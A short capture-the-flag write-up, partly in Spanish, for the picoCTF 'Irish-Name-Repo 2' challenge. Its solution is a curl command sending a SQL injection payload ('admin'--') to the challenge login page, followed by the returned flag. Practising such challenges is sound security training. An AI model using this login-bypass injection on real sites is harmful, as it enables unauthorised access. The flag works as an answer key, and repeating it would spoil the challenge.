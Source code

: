 ## Irish-Name-Repo 2
## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/53751/` ([link](https://jupiter.challenges.picoctf.org/problem/53751/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751

## Hints
1. The password is being filtered.
## Datos de acceso al nivel
## Solución
Atacamos el campo en lugar del campo:`login`  `password` 

```bash
┌──(kali㉿kali)-[~/SEGURIDAD7A]
curl "https://2019shell1.picoctf.com/problem/60775/login.php" --data "username=admin'--&password=1" && echo
<h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_c34df170}</p>
```
## Notas adicionales
## Referencias
